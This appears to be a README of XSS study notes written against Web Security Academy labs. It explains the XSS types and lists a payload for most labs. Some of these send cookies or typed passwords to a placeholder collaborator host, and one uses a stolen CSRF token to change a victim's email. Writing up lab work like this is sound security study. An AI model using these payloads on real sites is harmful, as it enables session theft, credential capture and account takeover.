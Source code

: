 # Cross-Site Scripting (XSS)

Cross-site scripting (XSS) is a vulnerability that enables attackers to inject malicious JavaScript into web pages. When executed inside a victim's browser, the attacker can compromise the user's interaction with the application.

---

## 📂 Types of XSS Attacks

### 1. Reflected XSS

- Occurs when the application immediately reflects unsanitized input from an HTTP request into the response.
- **Example:**
  ```html
  "><svg src=x onload=alert(1)>
  ```

### 2. Stored XSS

- Also known as **persistent XSS**, where malicious input is stored on the server and served to users in later HTTP responses.
- **Example:**
  ```html
  <><img src=1 onerror=alert(1)>
  ```

### 3. DOM-based XSS

- Involves the client-side JavaScript processing untrusted data and writing it to the DOM in an unsafe way.
- Example sinks: `document.write()`, `.innerHTML`, jQuery selectors, etc.

---

## 🔍 Example Scenarios

### 1.	DOM XSS in document.write sink using source location.search
­	 ![DOM XSS](screenshots/1.DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search.png)
-­	document.write() writes raw HTML into the page.
­-      "><svg src=x onload=alert(1)>
### 2.	DOM XSS in document.write sink using source location.search inside a select element
­	 
-     ­	"></select><img%20src=1%20onerror=alert(1)>
### 3.	DOM XSS in innerHTML sink using source location.search
­	
­	-      javascript:alert(1) 
- ­	Here query is directly injects it into the DOM using .innerHTML
-     ­	<img src=1 onerror=alert(1)>
### 4.	DOM XSS in jQuery anchor href attribute sink using location.search source
­	 
-     ­	https://academy.net/feedback?returnPath=javascript:alert(1)
### 5.	DOM XSS in jQuery selector sink using a hashchange event
­	 
- ­	This code listens to the URL hash fragment (everything after #).
- ­	It extracts that hash and injects it directly into a jQuery selector using :contains(...).
- ­	If an attacker can control the hash, they can break out of the selector string and inject arbitrary code.
-     ­	<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>             -- deliever from another server or html 
### 6.	Reflected DOM XSS
­	 
- ­	This line parses the server’s JSON response using eval(), which allows attackers to execute arbitrary JavaScript code if they control or tamper with the response.
-     ­	\"-alert(1)}//
### 7.	Stored DOM XSS
­	 
-     ­	<><img src=1 onerror=alert(1)>
### 8.	Reflected XSS into attribute with angle brackets HTML-encoded
­	 
-     ­	"onmouseover="alert(1)
### 9.	Stored XSS into anchor href attribute with double quotes HTML-encoded
­	 
### 10.	Reflected XSS into a JavaScript string with single quote and backslash escaped
­	 
-     ­	</script><script>alert(1)</script>
### 11.	Reflected XSS into a JavaScript string with angle brackets HTML encoded
­	 
-     ­	'-alert(1)-'
### 12.	Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
­	 
-     ­	\'-alert(1)//
### 13.	Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
­	 
-     ­	http://aa.com/?%27-alert(1)-%27 or http://aa.com/?&apos;-alert(1)-&apos;  
### 14.	Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
­	 
-     ­	${alert(1)}
### 15.	Exploiting cross-site scripting to steal cookies
-     ­	<script>
      fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
      method: 'POST',
      mode: 'no-cors',
      body:document.cookie
      });
      </script>
### 16.	Exploiting cross-site scripting to capture passwords
-     ­<input name=username id=username>
      <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
      method:'POST',
      mode: 'no-cors',
      body:username.value+':'+this.value
      });">
### 17.	Exploiting XSS to bypass CSRF defences
-   	<script>
      var req = new XMLHttpRequest();
      req.onload = handleResponse;
      req.open('get','/my-account',true);
      req.send();
      function handleResponse() {
      var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
      var changeReq = new XMLHttpRequest();
      changeReq.open('post', '/my-account/change-email', true);
      changeReq.send('csrf='+token+'&email=test@test.com')
      };
      </script>
---
## 🔎 Response Headers to Look For:

- Content-Type: Should be text/html; charset=UTF-8 or appropriate type.
- Content-Security-Policy: Helps mitigate XSS by restricting sources.
- X-Content-Type-Options: Should be nosniff.
- X-XSS-Protection: Older browsers may honor this.
- Set-Cookie: Should include HttpOnly and Secure flags to protect cookies.
- Access-Control-Allow-Origin: If incorrectly configured, it could expose data cross-domain.

